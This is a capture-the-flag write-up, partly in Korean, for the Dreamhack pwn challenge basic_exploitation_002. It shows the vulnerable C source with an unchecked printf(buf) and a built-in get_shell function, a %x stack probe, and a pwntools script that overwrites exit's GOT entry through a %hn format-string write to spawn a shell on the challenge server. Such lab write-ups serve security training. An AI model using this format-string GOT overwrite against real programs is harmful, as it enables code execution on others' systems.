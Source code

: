 # basic_exploitation_002 - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 2
- Provided Files: basic_exploitation_002.c, basic_exploitation_002(ELF)
- tools:
## Brief Description
## Initial Analysis
### Environment
``` sh
checksec basic_exploitation_002
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```
### Code
``` c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}
```
## Vulnerability
### FSB(Format String Bug)
``` c
read(0, buf, 0x80); // buf size: 0x80
printf(buf);
```
`buf`에 담긴 사용자 입력을 검증/필터링 없이 `printf`로 출력한다.  
## Exploit
### Strategy
PIE가 비활성화 되어있으므로, `get_shell`의 주소는 고정된다. FSB를 이용해서 `exit`의 got를 `get_shell`로 덮어쓰면 쉘을 획득할 수 있다.  
### Exploitation Steps
``` sh
$ ./basic_exploitation_002
AAAA AAAA %x %x %x %x %x %x %x %x %x %x
AAAA AAAA 41414141 41414120 78252041 20782520 25207825 78252078 20782520 25207825 78252078 a782520
```
예상대로, 인자는 [FSP] 부터 + 0x4씩 증가하는 것을 확인할 수 있다.
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
| ra | 0x4 |
| ebp |  |
| buf | 0x80 |
### payload
``` python
from pwn import *

p = remote('host8.dreamhack.games', 13780)
context.arch = "i386"

e = ELF('./basic_exploitation_002')
# libc = ELF('x64/libc-2.23.so')

# payload
exit_got = e.got["exit"]
get_shell = e.symbols["get_shell"]
get_shell = p32(get_shell)
original = p32(0x8048476)

under = get_shell[:2] # 하위 2바이트만 덮어 씀. 상위 2바이트는 동일함
under = int.from_bytes(under, "little")

payload = f"%{under}c".encode()
payload += b"%5$hn"
to_add = 16 - len(payload)
payload += b"A" * to_add # 16byte로 맞추기 위한 padding
payload += p32(exit_got)

p.send(payload)

# interactive
p.interactive()
```
